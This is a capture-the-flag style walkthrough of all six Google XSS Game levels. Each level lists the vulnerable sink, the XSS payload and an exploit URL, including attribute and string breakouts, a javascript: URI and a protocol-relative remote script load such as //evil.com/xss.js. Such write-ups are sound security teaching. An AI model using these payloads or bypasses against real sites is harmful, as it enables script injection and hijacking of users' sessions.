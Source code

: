 # Google XSS Game Walkthrough (Levels 1–6)

A complete write-up of all six levels of the [Google XSS Game](https://xss-game.appspot.com), showcasing how each level demonstrates a different form of Cross-Site Scripting (XSS).

---

## [1/6] Level 1: Hello, World of XSS

1.	Objective: Trigger an alert by injecting JavaScript into the query URL parameter.
 ![challenge1]( challenges/1.png)
2.	Code Behavior: 
  a.	The application reflects the query parameter into the page without sanitization:
  b.	 ![code1](codes/1.png)
3.	Vulnerability
  a.	Reflected Cross-Site Scripting (XSS):
  b.	User input is placed directly into the DOM using .innerHTML without sanitization or escaping. 
4.	Payload: <script>alert(1)</script>
5.	Exploit URL: https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>ipt>
![result1](result/1.png)
---

## [2/6] Level 2: Persistence Is Key

1.	Objective: Exploit stored XSS by injecting JavaScript into a message field that will be saved and later reflected into the page.
 ![challenge2]( challenges/2.png)
2.	Code Behavior
   a.	 ![code2](codes/2.png)
3.	Vulnerability
  a.	Stored XSS (DOM-based):
  b.	User input is unsafely embedded into the DOM using .innerHTML, allowing script execution.
4.	Payload: <img src=x onerror=alert(1)>
![result2](result/2.png)
---

## [3/6] Level 3: That Sinking Feeling...
1.	Objective: Trigger XSS by injecting into a JavaScript sink that uses user input to build and insert raw HTML.
 ![challenge3]( challenges/3.png)
2.	Code Behavior
   a.	 ![code3](codes/3.png)
   b.	The app reads input from location.hash and passes it to chooseTab().
  d.	Inside chooseTab(num), your input is used to dynamically build HTML
  e.	This creates a string of HTML with your input directly inserted into an <img> tag’s src attribute using .html() — a dangerous sink.
3.	Vulnerability
  a.	DOM-based reflected XSS
  b.	No input validation or sanitization
  c.	Direct insertion into HTML via .html() with attacker-controlled num
  d.	Allows attribute injection and event handler execution (e.g., onerror)
4.	Payload: #1'%20onerror='alert(1)
5.	Exploit URL: https://xss-game.appspot.com/level3/frame#1'%20onerror='alert(1)
![result3](result/3.png)
---

## [4/6] Level 4: Context Matters
1.	Objective: Trigger a DOM-based reflected XSS by exploiting how the application uses location.hash to dynamically build an HTML element using jQuery.
 ![challenge4]( challenges/4.png)
2.	Code Behavior
  a.	 ![code4](codes/4.1.png)
  b.	 ![code4](codes/4.2.png)
  c.	The app dynamically builds JavaScript using this pattern:
  d.	Your input from the location.search (the part after ?) is directly inserted into a JavaScript string, which is then executed via setTimeout().
3.	Vulnerability
  a.	DOM-based Reflected XSS in JavaScript string context
  b.	Unescaped user input is inserted into a JavaScript string and executed
  c.	Allows attackers to close the existing expression and inject arbitrary JavaScript
4.	Payload: 1');alert(1);//
5.	Exploit URL: https://xss-game.appspot.com/level4/frame?timer=1%27%29%3Balert%281%29%3B%2F%2F
![result4](result/4.png)
---

## [5/6] Level 5: Breaking Protocol
1.	Objective: Trigger JavaScript execution by injecting a javascript: URI into a link — without using <script> or onclick.
 ![challenge5]( challenges/5.png)
2.	Code Behavior: 
  a.	 ![code5](codes/5.1.png)
  b.	 ![code5](codes/5.2.png)
  c.	The application builds a confirmation page based on the next parameter and does this
  d.	Your next value is:
    i.	Embedded directly into the href attribute
    ii.	Later executed as a redirect URL
3.	Vulnerability
  a.	DOM-based XSS via href="..." and window.location
  b.	No validation or sanitization of the next parameter
  c.	Allows injection of javascript: protocol URIs, which are executable links
4.	Payload: javascript:alert(1)
5.	Exploit URL: http://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
![result5](result/5.png)
---

## [6/6] Level 6: Follow the 🐇
1.	Objective: Trigger XSS by injecting an external script file, even though the app tries to block URLs that start with http:// or https://.
![challenge6]( challenge/6.png)
2.	Code Behavior:
  a.	 ![code6](code/6.png)
  b.	The app dynamically creates a <script> tag using input from the URL hash (#)
3.	Vulnerability
  a.	DOM-based XSS via external script injection
  b.	App blocks only http:// and https://, but not //domain.com
  c.	You can bypass the filter using a protocol-relative URL, like //evil.com/xss.js
4.	Payload: //cdn.jsdelivr.net/gh/naorlivne/poc/xss.js ( Where that file contains: alert(1); )
5.	Exploit URL: https://xss-game.appspot.com/level6/frame#//cdn.jsdelivr.net/gh/naorlivne/poc/xss.js
![result6](result/6.png)
---

## Summary Table

| Level | Vulnerability Type        | Input Source  | Sink               | Payload Example                |
| ----- | ------------------------- | ------------- | ------------------ | ------------------------------ |
| 1     | Reflected XSS             | URL Query     | `.innerHTML`       | `<script>alert(1)</script>`    |
| 2     | Stored DOM XSS            | Message field | `.innerHTML`       | `<img src=x onerror=alert(1)>` |
| 3     | DOM Reflected XSS         | URL Hash      | `.html()`          | `#1'%20onerror='alert(1)`      |
| 4     | DOM Reflected XSS (JS)    | URL Query     | `setTimeout(...)`  | `1');alert(1);//`              |
| 5     | Protocol-based XSS        | URL Query     | `href`, redirect   | `javascript:alert(1)`          |
| 6     | Script Injection via Hash | URL Hash      | `<script src=...>` | `#//evil.com/script.js`        |

---

Created by: **Praful Mardhekar**\
Cyber Security & Offensive Security Enthusiast

